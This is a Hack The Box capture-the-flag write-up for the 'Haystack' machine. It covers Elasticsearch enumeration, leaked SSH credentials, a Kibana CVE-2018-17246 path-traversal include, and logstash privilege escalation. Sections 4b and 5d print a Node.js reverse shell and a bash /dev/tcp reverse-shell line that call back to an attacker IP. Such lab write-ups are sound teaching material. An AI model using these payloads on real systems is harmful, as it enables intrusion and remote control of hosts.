







hackthebox Haystack
Released: 9th March 2019 / Pwned: July 15th 2019 - [+] Solved whilst Active

Haystack, when you're solving it on, feels CTF-like. In hindsight, it does a pretty good job at teaching you about elasticsearch and the ELK stack. The part that sucks is the route to user, which is hidden by the fact that elasticsearch only returns 10 results by default; a key bit of knowledge that you can easily miss from the documentation. Following that, you have to port-forward a locally running service, something I wouldn't rate a machine “easy� for, which exposes an inconsistent and non-obvious CVE that you won't find via searchsploit.
Summary
• Read a hint from needle.jpg on port 80
• Retrieve a username and password from port 9200 using elasticsearch's query language
• Port-forward a locally running service out to your attacking machine and use an LFI exploit to gain an elevated shell on the system
• Create a file in /opt/kibana with specific syntax and wait for your root shell
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.115
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/haystack# mkdir nmap
root@gotham:~/ctf/haystack# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.115
...
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
| 2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
| 256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_ 256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp open http nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open http nginx 1.12.2
| http-methods:
|_ Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
...
No need for a full port scan as it doesn't reveal anything new.
Ports:
• 22/ssh - there's nothing to do here for the time being.
• 80/http - there's a website with no title.
• 9200/http - another website with no title and on a strange port.
Have a look at port 80/http first.
2) 80/http
http://10.10.10.115/
There's a picture of a needle in a haystack.

Anything contained in the image?
root@gotham:~/ctf/haystack/80-http# wget http://10.10.10.115/needle.jpg
root@gotham:~/ctf/haystack/80-http# strings needle.jpg
...
bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
root@gotham:~/ctf/haystack/80-http# echo "bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==" | base64 -d
la aguja en el pajar es "clave"
Yes! A hint.
la aguja en el pajar es "clave" translated from Spanish to English is the needle in the haystack is "key".
When we reach the haystack, we're looking for key, or clave.
3) 9200/http
http://10.10.10.115:9200/
This port is an elasticsearch database.

I learnt how to use elasticsearch from these links:
https://www.elastic.co/guide/en/elasticsearch/reference/6.1/_list_all_indices.html
https://www.elastic.co/guide/en/elasticsearch/reference/current/search-search.html
Indexes contain data.
We can list all indexes (indices) in the database using /_cat/indices?v

There are 3 indexes
• .kiban
• quotes
• bank
We can list all the data in an index using:
/index/_search?=pretty
By default, elasticsearch will only return 10 results. You can get more results using ?size:
index/_search?size=100
3a) quotes
There's nothing interesting in bank.
Have a look at the quotes index.
http://10.10.10.115:9200/quotes/_search?size=100
The last result has an interesting message.

We've found the haystack.
You can query/search through indexes using elasticsearch's query language.
https://www.elastic.co/guide/en/elasticsearch/reference/6.4/getting-started-query-lang.html
Using Burp, search through the quote field in the quotes index for clave, the hint about the “needle� from port 80.
Burp query:
GET /quotes/_search HTTP/1.1
Host: 10.10.10.115:9200
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 54
Content-Type: application/json
{
"query": { "match": { "quote": "clave" } }
}
Response:
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Sat, 13 Jul 2019 00:25:25 GMT
Content-Type: application/json; charset=UTF-8
Content-Length: 456
Connection: close
{"took":7,"timed_out":false,"_shards":{"total":5,"successful":5,"skipped":0,"failed":0},"hits":{"total":2,"max_score":5.9335938,"hits":[{"_index":"quotes","_type":"quote","_id":"45","_score":5.9335938,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}},{"_index":"quotes","_type":"quote","_id":"111","_score":5.3459888,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}]}}
We've found some base64 strings.

Decode the base64 strings.
root@gotham:~/ctf/haystack/80-http# echo "dXNlcjogc2VjdXJpdHkg" | base64 -d
user: security
root@gotham:~/ctf/haystack/80-http# echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d
pass: spanish.is.key
Credentials!
security / spanish.is.key
Log in using ssh and retrieve the user flag.
root@gotham:~/ctf/haystack/80-http# ssh security@10.10.10.115
The authenticity of host '10.10.10.115 (10.10.10.115)' can't be established.
ECDSA key fingerprint is SHA256:ihn2fPA4jrn1hytN0y9Z3vKpIKuL4YYe3yuESD76JeA.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.115' (ECDSA) to the list of known hosts.
security@10.10.10.115's password:
Last login: Wed Feb 6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$ ls
user.txt
[security@haystack ~]$ cat user.txt
04d18bc...
4) security -> kibana
After enumerating the whole system, you'll realise there aren't any avenues towards priv-esc here.
However, whilst reading about/searching through elasticsearch, you should have come across the names of a few other services - kibana and logstash. This is the ELK stack - https://www.elastic.co/what-is/elk-stack.
Kibana runs on port 5601 - https://www.elastic.co/guide/en/kibana/current/settings.html
Check for locally running services on the machine.
[security@haystack ~]$ ss -nutlp
Netid State Recv-Q Send-Q Local Address:Port Peer Address:Port
udp UNCONN 0 0 127.0.0.1:323 *:*
udp UNCONN 0 0 ::1:323 :::*
tcp LISTEN 0 128 *:80 *:*
tcp LISTEN 0 128 *:9200 *:*
tcp LISTEN 0 128 *:22 *:*
tcp LISTEN 0 128 127.0.0.1:5601 *:*
tcp LISTEN 0 128 ::ffff:127.0.0.1:9000 :::*
tcp LISTEN 0 128 :::80 :::*
tcp LISTEN 0 128 ::ffff:127.0.0.1:9300 :::*
tcp LISTEN 0 128 :::22 :::*
tcp LISTEN 0 50 ::ffff:127.0.0.1:9600 :::*
Kibana is running - 127.0.0.1:5601
4a) Port-Forward
Port-forward Kibana, port 5601, to our attacking machine so that we can browse to it locally.
root@gotham:~/ctf/haystack# ssh security@10.10.10.115 -L 5601:127.0.0.1:5601 -nNT
security@10.10.10.115's password: spanish.is.key
...
ssh should hang.
You can now browse to the kibana web app on your attacking machine by visiting http://127.0.0.1:5601

4b) Kibana LFI
This version of Kibana has an LFI exploit (we know the version of kibana from the elasticsearch output on http://10.10.10.115:9200)
https://github.com/mpgn/CVE-2018-17246
Create a javascript reverse shell on the victim machine and drop it a location that's easy to include, like /tmp
(make sure to change ip and port to that of your attacking machine)
[security@haystack ~]$ vi /tmp/shell.js
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(9001, "10.10.14.13", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application form crashing
})();
Prep a listener on your attacking machine to receive your shell
root@gotham:~/ctf/haystack# nc -lvnp 9001
listening on [any] 9001 ...
And run the LFI and include your shell:
/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../../tmp/shell.js
http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../../tmp/shell.js
You should receive a shell as kibana on your listener!
...
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.115] 48730
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ pwd
/
This exploit can be slightly temperamental.
For me, my reverse shells seemed to have a one-time use. If you had gotten a shell already but lost connection, or it simply isn't working, try renaming the shell.js on the victim machine to something new, and include it again. That worked for me.
5) kibana -> root
Now to priv-esc for a second time.
5a) Kibana's files
Since we're running as a new user, kibana, check for any new files that we can access by searching for files owned by kibana.
bash-4.2$ find / -user kibana 2>/dev/null
/dev/pts/1
...
/etc/logstash/startup.options
/var/lib/kibana
/var/lib/kibana/uuid
...
/var/log/kibana
...
/usr/share/kibana/optimize
...
/usr/share/kibana/plugins
/opt/kibana
/etc/logstash looks interesting because it's not a “kibana� file.
bash-4.2$ ls -alh /etc/logstash
total 52K
drwxr-xr-x. 3 root root 183 jun 18 22:15 .
drwxr-xr-x. 83 root root 8,0K jun 24 05:44 ..
drwxrwxr-x. 2 root kibana 62 jun 24 08:12 conf.d
-rw-r--r--. 1 root kibana 1,9K nov 28 2018 jvm.options
-rw-r--r--. 1 root kibana 4,4K sep 26 2018 log4j2.properties
-rw-r--r--. 1 root kibana 342 sep 26 2018 logstash-sample.conf
-rw-r--r--. 1 root kibana 8,0K ene 23 11:59 logstash.yml
-rw-r--r--. 1 root kibana 8,0K sep 26 2018 logstash.yml.rpmnew
-rw-r--r--. 1 root kibana 285 sep 26 2018 pipelines.yml
-rw-------. 1 kibana kibana 1,8K jul 15 06:17 startup.options
Reading /etc/logstash/startup.options tells us that logstash has been modified to run as root.
This strongly implied to me that this is our path to root.
bash-4.2$ cat /etc/logstash/startup.options
...
# user and group id to be invoked as
#LS_USER=logstash
#LS_GROUP=logstash
LS_USER=root
LS_GROUP=root
...
5b) /etc/logstash/conf.d
In /etc/logstash there's a conf.d directory, which contains a set of configuration files.
bash-4.2$ cd /etc/logstash/conf.d
bash-4.2$ ls -alh
total 12K
drwxrwxr-x. 2 root kibana 62 jun 24 08:12 .
drwxr-xr-x. 3 root root 183 jun 18 22:15 ..
-rw-r-----. 1 root kibana 131 jun 20 10:59 filter.conf
-rw-r-----. 1 root kibana 186 jun 24 08:12 input.conf
-rw-r-----. 1 root kibana 109 jun 24 08:12 output.conf
There's 2 interesing files - input.conf and filter.conf.
bash-4.2$ cat input.conf
input {
file {
path => "/opt/kibana/logstash_*"
start_position => "beginning"
sincedb_path => "/dev/null"
stat_interval => "10 second"
type => "execute"
mode => "read"
}
}
bash-4.2$ cat filter.conf
filter {
if [type] == "execute" {
grok {
match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
}
}
}
This page explains how these files work - https://www.elastic.co/guide/en/logstash/current/config-examples.html#_processing_apache_logs
In summary:
• input tells filter what files to read
• filter contains the patterns to search through the files for
5c) input.conf and filter.conf
input.conf
We can see from input.conf that logstash is taking input from all files named /opt/kibana/logstash_<anything> and treating them as type execute
• path => "/opt/kibana/logstash_*"
• type => "execute"
bash-4.2$ cat input.conf
input {
file {
path => "/opt/kibana/logstash_*"
start_position => "beginning"
sincedb_path => "/dev/null"
stat_interval => "10 second"
type => "execute"
mode => "read"
}
}
filter.conf
filter.conf is reading all files where type == execute and searching those files for a line that reads:
Ejecutar comando: <command>
and executing that command.
bash-4.2$ cat filter.conf
filter {
if [type] == "execute" {
grok {
match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
}
}
}
Therefore, to get root we need to create a file in /opt/kibana with the syntax Ejecutar comando: <command> with the command we want to execute. Since logstash is running as root, the command we write will run as root.
5d) Root!
To get root, I chose to create a reverse shell with bash.
bash-4.2$ ls -alh /opt/kibana
total 0
drwxr-x---. 2 kibana kibana 6 jul 15 07:07 .
drwxr-xr-x. 3 root root 20 jun 18 21:20 ..
bash-4.2$ echo "Ejecutar comando: bash -i >& /dev/tcp/10.10.14.5/9002 0>&1" > /opt/kibana/logstash_pls
bash-4.2$ ls -alh /opt/kibana
total 4,0K
drwxr-x---. 2 kibana kibana 26 jul 15 07:30 .
drwxr-xr-x. 3 root root 20 jun 18 21:20 ..
-rw-r--r--. 1 kibana kibana 59 jul 15 07:30 logstash_pls
bash-4.2$ cat /opt/kibana/logstash_pls
Ejecutar comando: bash -i >& /dev/tcp/10.10.14.5/9002 0>&1
Start a listener on your attacking machine to receive your shell:
root@gotham:~/ctf/haystack# nc -lvnp 9002
listening on [any] 9002 ...
And wait... For me, it took a few minutes to get a callback.
You should receive a shell! Go read /root/root.txt.
...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.115] 48334
bash: no hay control de trabajos en este shell
[root@haystack /]# id
id
uid=0(root) gid=0(root) grupos=0(root) contexto=system_u:system_r:unconfined_service_t:s0
[root@haystack /]# cat /root/root.txt
cat /root/root.txt
3f5f727...
x) Bonus - Explaining syntax:
match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
grok is a logstash plugin that parses arbitrary text - https://www.elastic.co/guide/en/logstash/current/plugins-filters-grok.html
• \s is regex for whitespace (i.e. a space, a tab etc.)
• %{GREEDYDATA:comando}" is how you define a grok pattern
The syntax for grok patterns is %{SYNTAX:SEMANTIC}
• SYNTAX is the pattern to search your text for - i.e. number/IP address etc.
• SEMANTIC is a variable for the data that's being retrieved - i.e. customerID
◇ The GREEDYDATA grok pattern is .* - i.e. anything/everything
◇ comando is the identifier/variable for our command
Therefore, Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" translates plaintext/without the grok syntax as:
Ejecutar comando: <command>